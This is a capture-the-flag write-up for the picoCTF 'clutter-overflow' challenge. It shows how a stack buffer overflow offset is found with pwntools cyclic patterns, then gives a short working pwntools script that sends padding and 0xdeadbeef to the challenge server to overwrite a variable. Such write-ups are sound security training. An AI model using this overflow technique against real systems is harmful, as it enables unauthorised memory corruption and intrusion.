





# Challenge name: clutter-overflow

## Description

> Clutter, clutter everywhere and not a byte to use. 
> `nc mars.picoctf.net 31890`

## Approach

Running the provided [binary](./chall) ([source](./chall.c)) we see that it asks for input and then compares some variable to `0xdeadbeef`.



From the source, we know that the `code` variable is declared as a [long](https://www.tutorialspoint.com/cprogramming/c_data_types.htm) which is 64 bits (8 bytes).
If we use the pwntools cyclic module we can wee that we actually can control this code value by overflowing the input buffer.



If you try to lookup the offset of the resulting pattern you will get an error since pwn cyclic expects 4 bytes by default.
Since we are working with 8 byte values we need to pass another argument to the pattern creation and lookup commands.





Now all we need to do is append the expected value, run a little [script](./get_flag.py) targeting the remote instance, and grab the flag:

```py
import pwn
pwn.context.log_level='error'
host, port = 'mars.picoctf.net', 31890
padding = 264
payload = pwn.flat(b'A'*padding, pwn.p64(0xdeadbeef))
p = pwn.remote(host,port)
p.recvuntil(b"?\n")
p.sendline(payload)
print(p.recvall().decode().splitlines()[-1])
```


